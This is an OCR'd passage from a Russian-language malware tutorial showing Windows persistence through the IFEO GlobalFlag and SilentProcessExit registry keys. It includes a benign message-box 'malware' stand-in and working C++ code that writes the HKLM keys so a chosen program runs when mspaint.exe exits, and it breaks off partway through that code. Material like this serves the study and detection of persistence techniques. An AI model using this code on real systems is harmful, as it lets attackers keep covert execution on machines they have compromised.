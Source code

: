 `HKLM\Software\Microsoft\Windows NT\CurrentVersion\SilentProcessExit`        

### практический пример

Запустим наш вредоносный код после того, как Microsoft Paint (`mspaint.exe`) тихо завершит свою работу.    

Допустим, у нас есть наше "вредоносное ПО" (`hack.cpp`):   

```cpp
/*
hack.cpp
вредоносное приложение для закрепления через IFEO
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как видите, как обычно, я использую "meow-meow" message box "вредоносное ПО" =^..^=    

Затем создадим скрипт для закрепления, который модифицирует реестр (`pers.cpp`):     


```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows 
  NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
    RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
```